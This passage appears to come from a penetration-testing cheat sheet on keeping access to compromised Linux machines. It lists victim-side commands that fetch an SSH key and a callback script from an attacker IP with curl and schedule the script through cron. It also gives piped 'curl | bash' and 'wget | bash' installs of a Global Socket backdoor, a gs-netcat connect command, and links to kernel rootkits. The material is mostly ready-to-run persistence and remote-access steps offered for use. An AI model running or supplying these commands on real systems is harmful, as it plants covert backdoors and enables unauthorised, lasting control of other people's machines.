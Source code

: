 Attacker's box:

```
$ sudo useradd -ms /bin/false nopty
$ sudo ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
$ cat /home/nopty/.ssh/dummy_key.pub
$ sudo vi /home/nopty/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Victim's box:

```
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```



### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)


#### Install

Victim's box:

```
$ bash -c "$(curl -fsSL gsocket.io/x)"
$ bash -c "$(wget -qO- gsocket.io/x)"
```


#### Connect

Attacker's box:

```
$ cd ~/tools && bash -c "$(curl -fsSL https://tiny.cc/gsinst)" && cd
$ ~/tools/gsocket/tools/gs-netcat -s "<SECRET>" -i
```


#### Clean Up

Victim's box:

```
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)
* [https://github.com/eeriedusk/nysm](https://github.com/eeriedusk/nysm)
